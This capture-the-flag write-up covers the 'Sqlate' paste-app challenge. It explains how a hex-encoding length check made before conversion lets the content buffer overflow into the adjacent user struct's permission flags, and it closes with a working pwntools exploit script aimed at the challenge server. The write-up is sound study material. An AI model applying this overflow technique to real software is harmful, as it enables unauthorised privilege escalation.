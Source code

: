 ```yaml
---
title: Sqlate
author: Sir_X
toc: true
share: true
ogImage: true
---
```


# Sqlate

<p align="center">
  <img src="../../assets/dom-images/logo.jpg" alt="Dombusters" width="25%">
</p>

## Description
World‘s most secure paste app.

## Solution
We get the src code for the app. 
The goal is to trigger the function `action_sys` which will print the flag. 
```
void action_sys() {
    system("/usr/bin/cat flag");
}
```
Checking the programs menu we can see that there is a permission check before allowing the call to this function.
```
case '7': {
    if (!check_permissions(permission_root)) continue;

    action_sys();
    continue;
}
```
The function `check_permissions` checks the current user flag against the perms provided in the  call.  (Added some debug printf's, to see what the current perms are)
```
bool check_permissions(const int perms) {
    printf("Current Perms: %ld\n", current_user.flags);
    printf("Perms: %d\n", perms);
    printf("Current Userid: %d\n", current_user.userId);
    if ((current_user.flags & perms) != perms) {
        printf("You don't have permissions to perform this action!\n");
        if (current_user.userId == -1) {
            printf("You might need to login to unlock this.\n");
        }
        return false;
    }
    return true;
}
```
The intended way of the program is to login as admin with the randomly generated admin password to get those root privs. But since we have no way of guessing or dumping this admin password we need to find a different way to modify the privs. This leaves us with 4 functions. 
* action_create --> Creates an entry in the sqlite db
* action_update --> Updates an entry in the sqlite db
* action_info --> Shows a specific entry
* action_list --> Lists all entries

The create action just adds a new entry to the sqlite db. Even if we could somehow get an sqli it woudn't really help us much, since only the entries are managed there and not the users or permissions. 

The update code on the other hand looks interesting. Besides selecting which field (Language/Content) of the entry we want to edit we can also decide in what encoding the content should be stored.
```
printf(
    "Which modifier?\n"
    "1) None\n"
    "2) Hex\n"
    "3) Base64\n"
    "\n"
    ">"
);
```
For every encoding there is a different length check to prevent buffer overflows. Small issue with that, the length check for the hex encoding has a bug. 
```
if (c == '3') {
    char* temp = base64_encode(line_buffer);
    if (strlen(temp) > 255) err(EXIT_FAILURE, "Attempted to overflow!");
    strcpy(line_buffer, temp);
    free(temp);
} else if (c == '2') {
    if (strlen(line_buffer) > 192) err(EXIT_FAILURE, "Attempted to overflow!");
}
```
The line_buffer length is checked before its converted to HEX, therefore we can write a total of 192*2=384 bytes. But our buffer for the content only has a size of 256 bytes. 
```
struct paste {
    int rowId;
    char title[256];
    char language[256];
    char content[256];
};
```
Luckily for us the user struct of the current_user is created just below the paste struct ion the buffer. Therefore if we overwrite the content in the paste struct we can write into the current_user, which also stores the users permission flags. 
```
struct user {
    int userId;
    uint64_t flags;
    char username[256];
    char password[256];
};
```
Therefore we can control the perms the user has.
Here is the part where im not entirely sure why my exploit works. Since I did overwrite the perms flag with the default paste content terminator A0. Which results in the int perms of 16688 where the root perms should be int 256. But somehow the check_permissions still approves of my rights and gives me the flag.

![Memory Overwrite](../../assets/dom-images/image.png) 
exploit.py
```
from pwn import *

binary = './vuln'
context.binary = binary
# Local debugging
#p = gdb.debug(binary, '''
#    continue
#''')
p = remote('sqlate.chal.irisc.tf', 10000)  # Connect to the remote CTF instance

def send_menu_choice(choice):
    p.recvuntil(b'> ')
    p.sendline(str(choice).encode())

def create_paste(title, language, content):
    send_menu_choice(1)  
    p.recvuntil(b"Enter Title: ")
    p.sendline(title)
    p.recvuntil(b"Enter Language: ")
    p.sendline(language)
    p.recvuntil(b"Enter Content: ")
    p.sendline(content)

def update_paste(title, content, modifier):
    send_menu_choice(2)  
    p.recvuntil(b">")   
    p.sendline(b"2")   
    p.recvuntil(b">")   
    p.sendline(str(modifier).encode()) 
    p.recvuntil(b"Enter content: ")
    p.sendline(content)  
    p.recvuntil(b"Enter Title: ")
    p.sendline(title)  

def list_all():
    send_menu_choice(4)


raw_payload_D = b"D" * 146  

log.info("Creating initial paste...")
create_paste(b"4", b"4", b"D")

log.info("Updating paste with malicious payload...")
update_paste(b"4", raw_payload_D, 2)
list_all()

send_menu_choice(7)
p.interactive()
```

---
**Dombusters**: _Writeup written by [Sir_X](https://x.com/Sir_X72563?t=J2E1FMrckYMcUU5MNmOLpw&s=09)_
